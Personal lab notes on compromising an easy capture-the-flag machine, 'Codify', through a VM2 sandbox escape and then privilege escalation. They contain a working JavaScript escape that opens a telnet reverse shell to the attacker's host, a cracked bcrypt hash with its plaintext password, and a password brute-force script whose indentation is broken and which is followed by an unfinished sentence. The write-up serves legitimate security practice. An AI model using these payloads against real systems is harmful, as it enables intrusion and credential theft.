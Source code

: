 ```yaml
---
type: box
finished: "true"
writeup: "false"
---
```


# Notes
### IP:
10.10.11.239

### Difficulty:
Easy

### User flag:

### Root flag:



# Nmap scan:
`nmap -sV -p- 10.10.11.239 `

gives us:

```
PORT     STATE SERVICE VERSION                                 
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu 
Linux; protocol 2.0)                                           
80/tcp   open  http    Apache httpd 2.4.52                     
3000/tcp open  http    Node.js Express framework               
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:li
nux_kernel
```

There is a code editor on the website http://codify.htb/editor.
![[Pasted image 20231107000126.png]]

Looking behind the scenes we find this javascript code:

```javascript
const code = document.getElementById('code').value;
      const encodedCode = btoa(code);
      fetch('/run', {
        method: 'POST',
        headers: {
          'Content-Type': 'application/json'
        },
        body: JSON.stringify({ code: encodedCode })
      })
        .then(response => response.json())
        .then(data => {
          const output = document.getElementById('output');
          if (data.error) {
            output.innerHTML = `<textarea  rows="10" cols="50" class="form-control h-100" style="color: red;">Error: ${data.error}</textarea>`;
          } else {
            output.innerHTML = `<textarea  rows="10" cols="50" class="form-control h-100" style="color: green;">${data.output}</textarea>`;
          }
        })
        .catch(error => {
          console.error(error);
          const output = document.getElementById('output');
          output.innerHTML = `<div style="color: red;">Error: ${error.message}</div>`;
        });
    }
```

It sends a a post request to http://codify.htb/run after having base64 encoded the input of the user. Looking at the post request deeper, it looks like this:

```
POST /run HTTP/1.1

(a bunch of headers)

{
"code":"bGV0IGFzZGYgPSAic2FkZmciCmNvbnNvbGUubG9nKGFzZGYp"
}
```

Hmm, no matter what I did I could not get any remote code execution to work let's keep this on the backburner while we keep enumerating. 

# RCE with VM2

Going to the About page presents us with this. 
![[Pasted image 20231107014648.png]]Googling what VM2 is allows us to find a billion RCE CVE's with level critical. It's kind of funny how insanely vulnerable this library is haha.

I'm just going to copy paste some code from this PoC https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244 and use a telnet reverse shell so our code ends up looking like this:
```js
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('TF=$(mktemp -u);mkfifo $TF && telnet {IP ADDRESS} {PORT} 0<$TF | sh 1>$TF');
}
```

Setting up a listener and...
![[Pasted image 20231107015133.png]]
### We're in.

However we're the svc user so we cannot get the user flag just yet.

# Privilege escalation 

First thing we can do is spawn a shell with: `python3 -c 'import pty; pty.spawn("/bin/sh")'

Now, first thing we can do is go in the /var/www/ folder. Snooping around in here finds us the tickets.db file. Catting that out and...

`Gjoshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2`
### bingo!

We just need to crack that password with john and we're good to go.
`john joshua.hash -w=/usr/share/wordlists/rockyou.txt` where joshua.hash is `$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2` gives us the following password `spongebob1` what an absolutely amazing password.

All we need to do now is ssh into the machine with the password and we're in and can cat out the user.txt file.

# Getting root flag

As joshua doing sudo -l gives us this file `(root) /opt/scripts/mysql-backup.sh` that we can run as root. However when we run it as root we 

```python
import string  
import subprocess  
all = list(string.ascii_letters + string.digits)  
password = ""  
found = False  
  
while not found:  
for character in all:  
command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
if "Password confirmed!" in output:  
password += character  
print(password)  
break  
else:  
found = True
```
